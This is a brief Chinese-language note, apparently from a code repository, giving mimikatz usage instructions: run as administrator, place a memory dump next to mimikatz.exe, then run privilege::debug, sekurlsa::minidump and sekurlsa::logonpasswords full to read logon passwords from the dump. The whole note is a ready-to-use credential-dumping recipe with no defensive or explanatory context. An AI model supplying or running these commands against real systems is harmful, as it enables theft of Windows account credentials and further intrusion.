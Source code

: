 # mimikatz使用命令

## *要用管理员权限打开，目标.dmp文件需要和mimikatz.exe在一个文件夹下

### 命令行

```
//提升权限
privilege::debug
//载入dmp文件
sekurlsa::minidump xxx.dmp
//读取登陆密码
sekurlsa::logonpasswords full
```



